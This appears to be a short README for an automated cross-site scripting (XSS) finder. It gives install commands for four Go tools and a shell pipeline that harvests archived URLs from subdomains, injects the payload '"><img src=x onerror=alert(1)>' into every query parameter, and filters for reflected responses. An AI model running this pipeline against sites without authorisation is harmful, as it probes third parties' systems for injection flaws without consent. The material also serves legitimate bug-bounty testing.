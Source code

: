 # Find-XSS-Auto
## How To Install
1. Install _httprobe_

```go get -u github.com/tomnomnom/httprobe```

2. Install _waybackurls_

```go get github.com/tomnomnom/waybackurls```

3. Install _qsreplace_

```go get -u github.com/tomnomnom/qsreplace```

4. Install _freq_

```go get -u https://github.com/takshal/freq```

## How to Find XSS 
```
cat subdomains.txt | httprobe | tee -a host.txt
cat host.txt | waybackurls | tee -a endpoint.txt
cat endpoint.txt | qsreplace '"><img src=x onerror=alert(1)>' | tee -a xss_fuzz.txt
cat xss_fuzz.txt | freq | tee -a possible_xss.txt
```

## REF 
https://infosecwriteups.com/how-i-was-able-to-find-50-cross-site-scripting-xss-security-vulnerabilities-on-bugcrowd-public-ba33db2b0ab1
